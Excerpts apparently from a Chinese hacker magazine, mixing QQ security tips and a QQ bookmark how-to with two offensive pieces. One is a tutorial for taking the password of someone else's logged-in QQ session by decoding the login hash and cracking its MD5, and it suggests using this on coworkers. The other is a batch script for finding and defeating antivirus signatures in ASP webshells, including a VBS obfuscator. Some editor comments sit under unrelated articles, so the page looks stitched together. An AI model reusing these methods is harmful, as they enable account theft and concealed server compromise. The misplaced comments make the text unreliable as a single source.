

## QQ 安全

- 1. QQ 密码保护：密码保护的三个问题很重要。在你丢失密码或密码被盗时，你可以通过 QQ 安全，回答出正确答案，按操作可以拿回密码。再者，密码问题可以这样设置：如，我的初中老师是？答：电视。这样，呵呵，黑客就算是神也不会弄到答案的。
- 2. 将你的好友进行备份（名称、号码）。我想你 QQ（还有 QQ 空间）很重要，你可以对里面的文档、图片进行备份。我建议你的备份文件保存在网易邮箱。
- 3. 可以每隔三个月修改一次密码。密码的组成：字母 + 数字 + 特殊符号（如 ?）
- 4. 改变密码的输入顺序，如密码是 123456，可以先写 456，再在 4 前左击一下，键入 123。

## 让视频进驻 QQ

白长利

**从本文你可以学到：**
如何通过 QQ 收藏在线视频

现在我向各位大侠、菜鸟们介绍一个可以很省事看视频的方法，大家都应该有 QQ 吧？怎么才可以从 QQ 上看视频呢？首先登录 QQ 书签的页面 http://shuqian.qq.com/help/zh_CN/tools.html#p5，如图 1 所示。

然后点击“把我的书签放到 QQ”上，就会看到自己的 QQ 上出现了如图 2 所示的模样。

我相信各位大侠、菜鸟们一定会做的，呵呵……继续往下说，点击 QQ 上的“收藏”按钮，在地址中输入视频的地址 http://www.youku.com/（优酷网，一个挺不错的视频网站），然后在“标题”中输入视频，再点击“添加”就可以了。如图 3 所示。

现在已经有内容添加了，快试一下，还等什么呢？这么简单，赶快做吧。









> **编辑点评：**
> 有些时候要达到目的方法其实很简单，就像本文的作者一样。只是一个简单的截图就可以搞定所有问题。不光头像，其他的 QQ 收藏资源，难道我们真的“截”不下来吗？

## 简单破解在线 QQ 密码

■ 张欢[风之痕]

经常在公共机房看到有人没关 QQ 就下机，有人是无意，更多的却是为了挂所谓的 QQ。有人对我说，反正你改不了我密码（没有原始密码是无法更改新密码的），我这号就是为了挂着升级的，我上面的好友随你删。N 多次看到有高人依靠这种办法居然挂到了太阳，难道真的拿这些挂着的 QQ 没办法？NO，我们要相信的是，一切皆有可能。

熟悉 QQ 登录过程，或者用过所谓的 QQ 安全登录器的都知道，QQ 登录可以依靠命令行的方式登录，即下面的格式：

```
QQ.EXE/START QQUIN:QQ号 PWDHASH:加密后的密码 /STAT:40[或者41，40是隐身登录，41是正常登录]
```

而登录参数中的 PWDHASH 值的算法是这样的：首先将 QQ 原始密码进行 MD5 散列算法处理，得到一个 16 字节的 MD5 HASH 字符串，然后用 BASE64 编码对这个 HASH 字符串做第二次编码，编码后的数据就是 PWDHASH 的值。BASE64 是可以逆向解密的，MD5 的加密数据也是可以通过数据加密后的对比有一定的概率获取的，当然这就要看 MD5 前的原始数据的复杂程度了。这样一来，我们就有了一个简单的思路。

如果能获得正在登录的 QQ 密码，那么这些太阳号岂不是我们的了？当然直接弄到密码是不怎么可能的，换个思路来做，想想我们刚才提到的 QQ 登录方式，可以使用命令行……对了，就是在这个登录的命令行里做文章。

以前获取 QQ 登录的命令行参数，使用的是“更新好友”的办法，登录 QQ 后点击“工具”，然后点“好友与资料”，接着点“更新好友”，QQ 提示是否继续，点确认。接着在能查看进程映像路径的任务管理器或者软件，如 360 安全卫士的进程管理中，就能获得 QQ 登录后的命令行参数了。以前在把 QQ 切换到 TM 时也能达到同样的效果，但是在最新版本的 QQ 中，好像这样的方法失效了，重新登录后的 QQ 或者 TM，不会在进程后面显示命令行，原因不明，可能是腾讯出于安全的考虑吧。但是经过测试，它的这种登录方式依然没有变化，还是重新登录时依靠命令行登录。那么我们怎么去获取这个命令行呢？

我们这次用到的工具是 Norton Process Viewer 5.2 汉化版，它是从 Norton SystemWorks 2006 中提取出来的小巧的进程查看器，即桌面的 PrcView。比起只可以查看目前系统中正在运行的所有进程，并且可以查看某个进程所调用的全部模块、运行的全部线程，以及内存的使用情况等进程信息。这个软件还有另一个功能就是查看软件的“启动信息”。我们用它来获得 QQ 的命令行登录参数信息。

首先，我们把已经登录的 QQ，利用上文提到的“更新好友”的办法，让 QQ 自动重新登录一次，然后我们拿出 Process Viewer，选择 QQ 进程，右击选择“启动信息”，在弹出的窗口中，我们就能看到相关的 QQ 启动信息，如图 1，在命令行中就可以看到 QQ 的登录进程命令行参数，赶紧拿个笔记下，我们等会就拿它来弄密码，哈哈。



图 1

我们把命令行中“PWDHASH:wimubzMkONYVNr+sNg72jPQ==”这一段给复制出来，这就是上文提到的经过 MD5 和 BASE64 加密后的 HASH 字符串，需要进行逆向解密，看看能不能得到密码。据我所知，能想到依靠公共机房挂 QQ 的人，头脑复杂不到哪里去，一般他们的密码都是超简单的。

解密 BASE64 的工具有很多，我用的是大名鼎鼎的 Cain，这是一个超级的密码破解工具，当然其他功能也很强大，不属于本文范畴，不做解释。点击“工具”，然后选择“Base64 口令解码”，在“Base64 加密的口令”中输入加密的口令：“wimubzMkONYVNr+sNg72jPQ==”，软件很快就给出了“解码的口令”，即原始数据：“c229ae6f332438d61536bb0d83bda33d”（如图 2）。这就是 QQ 密码经过 MD5 加密后的数据，我们现在要做的就是把加密后的 MD5 值进行反向解密。



图 2

Cain 有破解 MD5 的功能，可以在它的“破解器”中选择，适合暴力破解 MD5，这里我们使用在线查询的办法。我们来打开 MD5 的破解网站 www.cmd5.com，该站据说已经可以破解包含 12 位及 12 位以下数字、8 位字母、全部 7 位及以下字母加数字等组合的密码，值得推荐。3 秒钟后，我们就得到了原始的密码 19870608。

得到 QQ 的密码，下面的工作就不用我多说了吧，大家各显其能！当然，这个办法也可以用在同事或者 MM 的电脑上网时，顺便得到上面正在登录的 QQ 的密码哦，不过注意，这是不道德的，就不值得提倡了。



图 3

> **编辑点评：**
> 其实……这就是 QQ 的书签收藏功能的利用，呵呵！大家直接用浏览器也可以设置的，不过充分发挥 QQ 的多功能不正是我们追求的目标吗？

## 【文中工具下载地址】

- 1. Norton Process Viewer 5.2 汉化版下载地址：http://www.crsky.com/soft/6435.html
- 2. Cain v4.9 汉化版下载地址：http://www.3800hk.com/Soft/zhly/19592.html

## Q版黑客迎接奥运年

自从北京申奥成功后，总是有种不自觉的盼望。盼望早到2008年，可以亲自体会一下这场体育盛事所营造的气氛，仅此而已。而08年竟真的来到了，这么快；时间老夫还是老了啊……（噢！又是新的一年了，回想上一年，发生了那么多事情，身边的、所关注的，人和身边的事物都在不断变化着。变得更成功了或失败，当然也有不变的。不知道大家在《黑客手册》这一年中有多少变化？学到了多少。我想说的是，学到东西就是好的，锲而不舍，金石可镂。新年自然不能亏待各位，快来夸本期精彩的文章吧！

## 小菜学BAT终篇之 ASP WebShell 免杀器

- 从本文中你可以学到：
- 批处理编写的整体思路
- set 命令的几个用法
- 环境变量的用法及环境变量延迟
- for 及 if 命令的用法

自从给大家写了《小菜学BAT》系列后，总觉得意犹未尽，想给大家再带点什么，却被 Melody 抱怨前三篇没有体现出批处理的精华，这不，就有了本文，请各位洗耳恭听。

这一次，鄙人华丽推出的是 CMD 版 ASP WebShell 免杀器。程序主要分两部分：找特征码和修改特征码。那位，说的就是你呢，别睡觉！这次涉及到了许多以前没讲过的知识哟！认真听了！

由于本文是为了补充比高级篇中更高级的东西，所以基础部分直接带过去了。想要了解的话，去买前几期吧！一些知识点会在后面拎出来的，下面就从源代码开始分析。

```bat
@echo off
Rem 设置标题
Title 踏雪 CMD ASP WebShell 免杀器
Echo 欢迎使用本程序 By SnowWalker
goto start
```

以上这些是美化，给用户看一些版权信息和用法之类的。Title 命令可以用来设置当前 CMD 窗口的标题，如图1。



```bat
:start
Echo 请选择免杀步骤：
Set /P mode="a.查找特征码；b.分析特征码！"
Rem 用户选择免杀步骤
If %mode%==a goto find
If %mode%==b goto make
Rem 对用户的选择进行判断，并相应地跳转。
```

Set 命令用来设置变量的值，/P 开关可以让使用者自己输入变量值，引号里的内容是提示信息。Goto 命令可以跳转到相应的标签处。

下面正式进入特征码定位阶段：

```bat
:find
Rem 这是标签。看到没？前面有一个冒号。刚才的 goto find 就跳到这里。
Set /A times=0
Set /A num=0
Rem 设置计数器 times 和 num 的值为 0；/A 开关表示后面的内容是表达式或数。
Set /P wenjian="请输入欲免杀文件的路径："
Set /P lujing="请输入生成临时文件的文件夹："
Set /P one="请选择每块行数："
if "%one%"=="" set /a one=10
If not exist %wenjian% goto error
FOR /F "eol= delims= usebackq" %%i in (%wenjian%) do (
 set /A times=!times!+1
 set /A num=!num!+1
 if "!times!"=="%one%" set /A times=0
 set /A tempx=!num!-!times!
 echo %%i>>%lujing%\!tempx!.asp
)
Rem 用 for 命令打开文件，每十行为一个单位输出到指定目录中。
Echo 文件释放完毕，请用杀毒软件查杀后继续
Pause
```

上面这些是生成文件的部分，让用户选择欲免杀文件及生成文件的临时文件夹，还有每个文件的长度。用 For /F 打开文件并分别写入文件。下面就要用 for 命令判断哪些文件被杀，以找出特征码。

```bat
Set /a found=0
Rem 这个计数器用来记录特征码的数量，因为有时候特征码不止一个。
For /l %%i in (0,%one%,!num!) do (
 if not exist %lujing%\%%i.asp (
  set /a found=!found!+1
  set /a tempy=%%i+%one%
  echo 第!found!个特征码在第%%i~!tempy!行
  del %lujing%\%%i.asp
 )
)
Rem num 变量记录了文件总行数。用 dir 来判断文件是否存在，不存在就认定文件中包含特征码。
Echo 查找结束：共找到!found!个特征码
Pause
Goto end
```

到此为止，查找特征码部分已经完成了，主要还是用 For 列举临时文件夹中的文件名，少了哪个文件，就说明特征码在里面。

弄明白了吗？啊！pause 的用法我还没说呢。它会暂停批处理的运行并给出提示信息“请按任意键继续. . .”或“Press any key to continue . . .”，如图2。



那为什么要用 %wenjian%？因为这个变量名不是单一字母；要在开头和结尾处各加一个 % 表示这是一个变量。那 !temp! 又是什么呢？说来话长了。批处理在执行前会把变量名先用这个变量的值替换掉，比如 set /a a=1&echo a 会变成 set /a a=1 & echo 1。这样一来，在 for、if 等语句中本应作循环的变量就无法发挥作用。这有一点点（注意：只是一点点）像 VB 中用 public 声明的全局变量和用 private 声明的变量。用 ! 代替 % 可以有效解决这个问题，但必须用 cmd /v:on 把开关打开（据说：其实这个叫环境变量延迟，开启它的命令更常用的是 setlocal ENABLEDELAYEDEXPANSION，在批处理的最前面出现）。具体可以看 cmd 和 for 的帮助信息（嘿，也是有了好长时间才明白的）。

继续吧。

```bat
:make
if exist encode.vbs goto do
Rem 判断脚本是否存在，存在的话直接处理；
Rem 不存在的话就用 echo 写一个
Echo 正在创建脚本
Echo On Error Resume Next >> encode.vbs
echo Code=inputbox("请输入欲拆分的asp代码（多行合成一行，用冒号隔开！") >> encode.vbs
echo CodeA=""&chr(34) >> encode.vbs
echo for a=1 to len(code) >> encode.vbs
echo if mid(code,a,1)=chr(34) then >> encode.vbs
echo codea=codea&chr(34)&":"&chr(34) >> encode.vbs
echo else >> encode.vbs
echo codea=codea&chr(34)&mid(code,a,1)&chr(34)&"&"&chr(34) >> encode.vbs
echo end if >> encode.vbs
echo next >> encode.vbs
echo codea="b="&chr(34)&chr(34)&"&"&codea&"&chr(34),execute(a)" >> encode.vbs
echo wscript.echo codea >> encode.vbs
Goto do

:do
Echo 脚本生成完毕，下面开始拆分
Cscript encode.vbs "%code%"
Echo 处理完毕！
Pause
goto end
```

写完以上这段，我深深感觉到应该再给大家道个歉，这个 VBS 程序我本来想拿出来好好解释一遍的，但这样就有骗稿费之嫌了。所以在此我只简单讲几句：“Echo 内容>>文件” 是用来把内容写进文件里，入侵时用得也不少。Chr(34) 指的是双引号，34 是它的 ASCII 码，chr() 函数可以把 ASCII 码转换成字符。Cscript.exe 程序可以用来执行 js、vbs 等脚本，就像 wscript 可以解释批处理一样。至于这个 VBS 脚本，我会在高手专栏中具体讲解，有兴趣可以看一下。

程序的最后还要一个结尾，方便用户继续使用。

```bat
:error
Echo Bad Command.
Pause

:end
Set /p ok=是否继续处理？Y Or N?
if /i %ok%==Y goto start
if /i %ok%==y goto start
```

程序写完后当然要试试效果如何啦！先别急着双击运行批处理，因为默认情况下 cmd 不认识“! ”。运行 cmd /v:on 后用 cd 命令进入批处理所在的文件夹再打开这个程序。先进 a，把桂林老兵 ASP 站长助手的路径输入进去，再随便给一个空目录，我写的是 C:\temp（后面不用加斜杠）。输入单行行数的时候不要太小也不要太大。太大了不便于处理，太小了会增加程序负担，杀毒软件也不容易杀出来。

